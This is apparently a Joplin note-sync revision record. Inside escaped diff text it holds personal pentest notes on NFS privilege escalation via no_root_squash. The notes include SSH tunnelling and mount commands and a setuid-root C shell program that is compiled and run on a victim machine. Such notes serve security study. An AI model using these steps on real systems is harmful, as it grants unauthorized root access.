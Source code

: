 id: 7563aaf4d7594bac861032c1f631aa30
parent_id: 
item_type: 1
item_id: 8440d09282ed4abaa025709598022511
item_updated_time: 1646016694748
title_diff: "[{\"diffs\":[[1,\"20cd5702df5f4070a7626ac32fde683f\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 20cd5702df5f4070a7626ac32fde683f\\\r\\\nparent_id: \\\r\\\nitem_type: 1\\\r\\\nitem_id: 5c154102202a4bc2810ada55f25852e7\\\r\\\nitem_updated_time: 1642323843363\\\r\\\ntitle_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"NFS Vulns\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":9}]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"<ins>Vulnerabilities</ins>\\\\\\\\\\\\\n\\\\\\\\\\\\\n[https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no\\\\\\\\\\\\\\\\_root\\\\\\\\\\\\\\\\_squash-misconfiguration-pe](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)\\\\\\\\\\\\\n\\\\\\\\\\\\\nRead the /etc/exports file, if you find some directory that is configured as no\\\\\\\\\\\\\\\\_root\\\\\\\\\\\\\\\\_squash, then you can access it from as a client and write inside that directory as if you were the local root of the machine.\\\\\\\\\\\\\n\\\\\\\\\\\\\nno\\\\\\\\\\\\\\\\_root\\\\\\\\\\\\\\\\_squash: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.\\\\\\\\\\\\\n\\\\\\\\\\\\\nno\\\\\\\\\\\\\\\\_all\\\\\\\\\\\\\\\\_squash: This is similar to no\\\\\\\\\\\\\\\\_root\\\\\\\\\\\\\\\\_squash option but applies to non-root users. Imagine, you have a shell as nobody user; checked /etc/exports file; no\\\\\\\\\\\\\\\\_all\\\\\\\\\\\\\\\\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.\\\\\\\\\\\\\n\\\\\\\\\\\\\n<ins>NFS; no\\\\\\\\\\\\\\\\_root\\\\\\\\\\\\\\\\_squash, insecure, rw</ins>\\\\\\\\\\\\\n\\\\\\\\\\\\\nIf /etc/exports have a line e.g.\\\\\\\\\\\\\n\\\\\\\\\\\\\n> /srv/pelota 192.168.42.0/24(insecure,rw)\\\\\\\\\\\\\n> /srv/pelota 127.0.0.1/32(no\\\\\\\\\\\\\\\\_root\\\\\\\\\\\\\\\\_squash,insecure,rw)\\\\\\\\\\\\\n\\\\\\\\\\\\\nThen NFS is being exported and you have ssh access to the machine. You can use your attacker machine (login as root) to run:\\\\\\\\\\\\\n\\\\\\\\\\\\\n> ssh -f -N megumin@192.168.42.43 -L 2049:127.0.0.1:2049\\\\\\\\\\\\\n> mount -t nfs 127.0.0.1:/srv/pelota my_share\\\\\\\\\\\\\n> cd my_share\\\\\\\\\\\\\n> cat > shell.c<<EOF\\\\\\\\\\\\\n> #include &lt;unistd.h&gt;\\\\\\\\\\\\\n> int main(){\\\\\\\\\\\\\n> setuid(0);\\\\\\\\\\\\\n> setgid(0);\\\\\\\\\\\\\n> system(\\\\\\\\\\\\\\\"/bin/bash\\\\\\\\\\\\\\\");\\\\\\\\\\\\\n> }\\\\\\\\\\\\\n> EOF\\\\\\\\\\\\\n> gcc shell.c -o shell\\\\\\\\\\\\\n> chmod u+s shell\\\\\\\\\\\\\n\\\\\\\\\\\\\nNow inside a ssh session on the victim machine i.e. 192.168.42.32 in this case\\\\\\\\\\\\\n\\\\\\\\\\\\\n> cd /srv/pelota\\\\\\\\\\\\\n> ./shell\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> Use 'id' to identify what user you are\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":1730}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{\\\"id\\\":\\\"5c154102202a4bc2810ada55f25852e7\\\",\\\"parent_id\\\":\\\"27b595c9aae647aba407fed241a81f90\\\",\\\"latitude\\\":\\\"1.36730000\\\",\\\"longitude\\\":\\\"103.80140000\\\",\\\"altitude\\\":\\\"0.0000\\\",\\\"author\\\":\\\"\\\",\\\"source_url\\\":\\\"\\\",\\\"is_todo\\\":0,\\\"todo_due\\\":0,\\\"todo_completed\\\":0,\\\"source\\\":\\\"joplin-desktop\\\",\\\"source_application\\\":\\\"net.cozic.joplin-desktop\\\",\\\"application_data\\\":\\\"\\\",\\\"order\\\":0,\\\"markup_language\\\":1,\\\"is_shared\\\":0,\\\"share_id\\\":\\\"\\\",\\\"conflict_original_id\\\":\\\"\\\",\\\"master_key_id\\\":\\\"\\\"},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-16T09:05:29.319Z\\\r\\\ncreated_time: 2022-01-16T09:05:29.319Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":2845}]"
metadata_diff: {"new":{"id":"8440d09282ed4abaa025709598022511","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016694736,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.119Z
created_time: 2022-02-28T02:54:22.119Z
type_: 13
